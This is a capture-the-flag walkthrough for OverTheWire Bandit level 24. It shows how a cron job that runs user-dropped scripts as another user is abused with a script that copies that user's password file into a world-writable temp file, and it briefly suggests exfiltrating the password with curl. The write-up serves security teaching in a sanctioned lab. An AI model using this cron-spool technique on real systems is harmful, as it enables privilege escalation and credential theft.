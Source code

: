 # OverTheWire - Bandit - Level 24

[OverTheWire](https://overthewire.org) offers a series of "wargames" that teach
security skills. From their website:

> The Bandit wargame is aimed at absolute beginners. It will teach the basics
> needed to be able to play other wargames.

## Challenge Overview

The goal of this challenge is to find a process that is being run by the
`cron` daemon.

Then use `ssh` to log into the server as the `bandit24` user.

## Commands Used to Solve This Challenge

- `cat`: concatenate files and print on the standard output
- `ls`: list directory contents
- `ssh`: OpenSSH remote login client

## Initial Analysis

This is similar to the last challenge and comes as no surprise after seeing the
contents of `/etc/cron.d`. The notes for this challenge say that a shell script
needs to be written - things are getting interesting.

The information from the previous challenge is used to `ssh` into the server.

## Understanding the Challenge

The `cron` daemon is used to schedule commands to be run on the server, such as
taking a backup or doing daily restarts of a process. Writing a shell script to
solve this will be a big learning curve.

## Approach Strategy

1. Log in using `ssh`
1. Use `ls` to see what is in `/etc/cron.d`
1. Use `cat` to display what is hopefully an obvious file

## Step-by-Step Solution

The login information from the previous challenge is used to get a shell as user
`bandit23`. The `ls` command is used to get the contents of `/etc/cron.d`.

```
bandit23@bandit:~$ ls -l /etc/cron.d
total 24
-rw-r--r-- 1 root root 120 Sep 19  2024 cronjob_bandit22
-rw-r--r-- 1 root root 122 Sep 19  2024 cronjob_bandit23
-rw-r--r-- 1 root root 120 Sep 19  2024 cronjob_bandit24
-rw-r--r-- 1 root root 201 Apr  8  2024 e2scrub_all
-rwx------ 1 root root  52 Sep 19  2024 otw-tmp-dir
-rw-r--r-- 1 root root 396 Jan  9  2024 sysstat
bandit23@bandit:~$
```

It's probably not too hard to guess that the cron job is called
`cronjob_bandit24`. Next step is to see what it does:

```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$
```

So this says that when the cron job runs, it runs the command
`/usr/bin/cronjob_bandit24.sh`. The `@reboot` means that the job is run when
the server is rebooted. The `* * * * *` means that the job runs every minute, of
every hour, of every day of the month, of every month of the year, and every
day of the week. Where it says `bandit24` is the user that the cron job is to
run as.

The next step is to see what the command actually does:

```
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$
```

This is definitely more complicated than the previous challenges.

- The `/var/spool` directory is a temporary holding area for items to be
  processed
- This command is using `/var/spool/bandit24/foo` to hold files
- It does a loop over every file other than `.` and `..` to
  - Check that the owner is `bandit23`
  - If so then run the command, but if it runs more than `60` seconds then stop
    (`-s`) the process with a `-9` (KILL) signal
  - Delete the file

### The Script

It seems that what is needed is to write a script to copy the password to a
place that can be read. The hardest part here is going to be learning how to
edit files, and be warned that learning `vi` is beyond this walkthough!

It will be good to have a working directory to store the script while it is
being written and tested. Create a temporary directory and `cd` (change
directory) into it:

```
bandit23@bandit:~$ mktemp -d
/tmp/tmp.hNMIWeUFng
bandit23@bandit:~$ cd /tmp/tmp.hNMIWeUFng
bandit23@bandit:/tmp/tmp.hNMIWeUFng$
```

Then create a temporary file to receive the password, and make it writable by
any user:

```
bandit23@bandit:/tmp/tmp.hNMIWeUFng$ mktemp
/tmp/tmp.BvduascluY
bandit23@bandit:/tmp/tmp.hNMIWeUFng$ chmod 666 /tmp/tmp.BvduascluY
```

Then (magic!) use `vi` to create the script:

```
bandit23@bandit:/tmp/tmp.hNMIWeUFng$ vi script.sh
bandit23@bandit:/tmp/tmp.hNMIWeUFng$ cat script.sh
#!/bin/sh

cat /etc/bandit_pass/bandit24 > /tmp/tmp.BvduascluY

bandit23@bandit:/tmp/tmp.hNMIWeUFng$
```

The first line of the script defines the command that process the script. In
this case it's a plain `sh` script. The next line does a `cat` of the password
file into the world-writable temporary file.

Next, check the permissions on the script:

```
bandit23@bandit:/tmp/tmp.hNMIWeUFng$ ls -l
total 4
-rw-rw-r-- 1 bandit23 bandit23 64 Mar 28 05:05 script.sh
bandit23@bandit:/tmp/tmp.hNMIWeUFng$
```

That's no good - it needs execute permissions, and in particular for the
`bandit24` user that will be running the command. It's best to make it runnable
by everyone:

```
bandit23@bandit:/tmp/tmp.hNMIWeUFng$ chmod 755 script.sh
bandit23@bandit:/tmp/tmp.hNMIWeUFng$ ls -l
total 4
-rwxr-xr-x 1 bandit23 bandit23 64 Mar 28 05:05 script.sh
bandit23@bandit:/tmp/tmp.hNMIWeUFng$
```

Next copy it into the `spool` directory:

```
bandit23@bandit:/tmp/tmp.hNMIWeUFng$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/tmp.hNMIWeUFng$
```

Now to wait for the cron job to run, which is every minute:

```
bandit23@bandit:/tmp/tmp.hNMIWeUFng$ cat /tmp/tmp.BvduascluY
bandit23@bandit:/tmp/tmp.hNMIWeUFng$ cat /tmp/tmp.BvduascluY
bandit23@bandit:/tmp/tmp.hNMIWeUFng$ cat /tmp/tmp.BvduascluY
bandit23@bandit:/tmp/tmp.hNMIWeUFng$ cat /tmp/tmp.BvduascluY
[REMOVED: BANDIT24 PASSWORD]
```

To confirm that the password is correct, disconnect from the server and then
reconnect using the `bandit24` user and the found password (`/etc/issue` and
`/etc/motd` removed):

```
bandit23@bandit:~$
logout
Connection to bandit.labs.overthewire.org closed.
$ ssh bandit24@bandit.labs.overthewire.org -p 2220
[REMOVED: /etc/issue]
bandit24@bandit.labs.overthewire.org's password:
[REMOVED: /etc/motd]
bandit24@bandit:~$
```

## Key Takeaways

The ability to write shell scripts is a very important tool to have.

## Beyond the Flag

The solution above is fairly simple, all things considered. Instead of writing
the password to a file, it could be exfiltrated by using `curl` to POST it to
an API endpoint.

